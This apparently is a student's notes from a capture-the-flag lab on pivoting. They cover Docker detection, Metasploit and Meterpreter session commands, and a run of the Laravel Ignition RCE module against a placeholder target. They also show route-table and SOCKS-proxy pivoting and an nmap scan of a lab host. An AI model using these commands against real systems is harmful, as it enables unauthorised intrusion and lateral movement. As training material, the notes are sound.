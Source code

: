 # Day 9 [Pivoting] Dock the Halls

## What is Docker?
* **Docker** is a way to package applications and the associated dependencies into a single unit called an image
  * this image can be shared and run as a container either locally or remotely in prodcution
  * common way to tell if a compromised application is running in a Docker container is to verify the existence of a ```./dockerenv``` file at the root directory

## What is Metasploit?
* **Metsploit** is a powerfil penetration testing tool for gaining initial access to systems, performing post-exploitation, and pivioting to other applications and systems
* developed and maintained by **Rapid7**

## What is a Metasploit Session?

* Often **Command Shells/Meterpreter** sessions which allow for executing commnads against the target
* can also open up other session types, ie. **SSH / WinRm**
* common console commands:
#### View sessions
```
sessions
```
#### Upgrade the last opened session to Meterpeter
```
sessions -u -1
```
#### Interact with a session
```
sessions -i [session_id]
```
#### Background the currently interactive session and go back to the Metasploit prompt
```
background
```
### What is a Meterpreter
* **Meterpreter** is an advanced payload that provides interactive access to a compromised system
  * can upload/download files or pivot utilizing a meterpreter session
  * Normal command shells do not suppoer complex operation such as pivoting
* some useful commands in a meterpreter:

#### Get information about the remote system, ie OS
```
sysinfo
```
#### Upload a file or directory
```
upload local_file.txt
```
#### Display interfaces
```
ipconfig
```
#### Resolve a set of host names on the targer to IP addresses
```
resovle remote_service1 remote_service2
```

## What is Pivoting?
* once intial entry is gained, the compromised machine can be used to send additional web traffic to previously inaccessible machines
* network scanning tools such as **nmap or arp** can be be run from this compromised machine to locate additional machines/services that were previously inaccessible


## Using Metasploit
* Metasploit can be started by running the commmand ```msfconsole``
* comman commands:

##### To search for a module, use the 'search' command
```
msf6 > search laravel
```
#### Load a modile with the 'use; command:
```
msf6 > use mutli/php/ignition_laravel_debug_rce
```
#### View the information about the module, including the module options, description, CVE details, etc
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > info
```
#### View available options to set
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options
```
#### Set the target host and logging
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set RHOST [MACHINE_IP]
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set verbose true
```
#### Set the payload listening addressl this is the IP address of the host running Metasploit
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > set LHOST [LITEN_IP]
```
#### Show options again with those that are set
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > show options
```
#### Run or check the module
```
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > check
msf6 exploit(mutli/php/ignition_laravel_debug_rce) > run
```

### Using Metasploit to pivot
* Metasploit has an interanl routing table that can be modified with the ```route``` command
  * this routing table determines wehere to send network traffic through, this way we are using the Meterpreter to pivot
* the top-level ```route``` command is not the same as the one used in a Meterpreter session, you will need to background this session before utilizing the top-level command
* Usage:

#### Example usage
```
msf6 > route [add/remove] subnet netmask ]comm/sid]
```
#### Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
```
msf6 > route add 172.17.0.1/32 -1
```
#### Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
```
msf6 > route add 172.28.10.48/29 -1
```
#### Output the routing table
```
msf6 > route print
```

### Socks Proxy

* **Socks Proxy** is an intermediate server that supports relaying networking traffic between two machines
* allows you to implement pivoting
* can be run locally or on the remote compromised machine
```
msf6 > auxiliary/server/socks_proxy
msf6 > run SRVHOST=127.0.0.1 SRVPORT=9050 VERSION=4a
```
#### Can send curl requests using the --proxy flag
```
msf6 > curl --proxy socks4a://127.0.0.1:9050 http://[MACHINE IP]
```
#### If the tool does not natively support an option for using a socks proxy, ProxyChains can intercept the tool's request to open a new network connection and route the request through a socks proxy 
```
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 [MACHINE IP]
```



## Challenge Walkthrough

* Used nmap to check for open ports
```
nmap -T4 -A -Pn -vv 10.10.10.58
```
* Output:
```bash
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.54 ((Debian))
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: Apache/2.4.54 (Debian)
|_http-title: Curabitur aliquet, libero id suscipit semper
MAC Address: 02:EF:75:2A:F8:E5 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

* Inspected Network infor on web page
```
running Laravel v8.26.1 (PHP v7.4.30)
Set-Cookie Header= XSRF-TOKEN
```











